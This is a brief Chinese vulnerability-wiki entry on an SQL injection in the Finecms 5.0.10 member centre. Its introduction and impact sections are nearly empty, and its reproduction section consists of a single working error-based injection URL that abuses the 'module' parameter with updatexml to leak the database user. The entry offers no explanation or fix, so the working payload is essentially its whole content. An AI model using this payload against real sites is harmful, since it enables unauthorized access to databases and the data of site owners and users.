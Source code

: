 Finecms 5.0.10 会员中心sql注入漏洞
==================================

一、漏洞简介
------------

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

    http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a

![](/Users/aresx/Documents/VulWiki/.resource/Finecms5.0.10会员中心sql注入漏洞/media/rId24.png)
